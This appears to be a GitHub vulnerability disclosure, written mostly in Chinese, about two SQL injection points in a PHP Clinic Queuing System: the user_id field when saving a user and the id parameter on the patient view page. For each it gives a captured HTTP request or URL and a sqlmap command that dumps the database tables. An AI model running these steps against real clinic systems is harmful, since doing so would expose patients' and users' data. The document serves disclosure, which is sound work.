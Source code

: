 # Clinic-Queuing-System
Clinic Queuing System Vulnerability exploitation
# 注入点1
功能点：Users->Add New
 ![image text](https://github.com/c1earyy/Clinic-Queuing-System/blob/main/1.png)
输入所有信息save并用burpsuite抓包
 ![image text](https://github.com/c1earyy/Clinic-Queuing-System/blob/main/2.png)
 ![image text](https://github.com/c1earyy/Clinic-Queuing-System/blob/main/3.png)
数据包
```
POST /php-sqlite-cqs/LoginRegistration.php?a=save_user HTTP/1.1
Host: 192.168.17.1
Content-Length: 143
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36 Edg/119.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.17.1
Referer: http://192.168.17.1/php-sqlite-cqs/?page=manage_user
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=a5r847gtg31fcaj6bs2hk6991v
Connection: close

formToken=%242y%2410%24yN7Wr9kopiTJpbrSGGgaF.2Ufy.K9X2Sw1jaHwM1Z3HWM%2Fb.LYgwm&user_id=&fullname=yy&username=yy&password=123456&type=1&status=0
```

Sqlmap命令
```python
py .\sqlmap.py -r .\1.txt -p user_id –tables
```

user_id参数存在sql注入，成功注入到tables
 ![image text](https://github.com/c1earyy/Clinic-Queuing-System/blob/main/4.png)

# 注入点2
点击 +Add Record，填写好信息，save
 ![image text](https://github.com/c1earyy/Clinic-Queuing-System/blob/main/5.png)
功能点：Patient List->view patient
点击view patient之前打开burpsuite工具进行抓包
 ![image text](https://github.com/c1earyy/Clinic-Queuing-System/blob/main/6.png)
 ![image text](https://github.com/c1earyy/Clinic-Queuing-System/blob/main/7.png)
把抓到的数据包放进sqlmap工具里。

漏洞url
```
http://192.168.17.1/php-sqlite-cqs/?page=view_patient&id=23
```
Sqlmap命令
```python
py .\sqlmap.py -r .\1.txt -p id --tables –batch
```
id为sql注入参数，成功注入到tebles
 ![image text](https://github.com/c1earyy/Clinic-Queuing-System/blob/main/8.png)
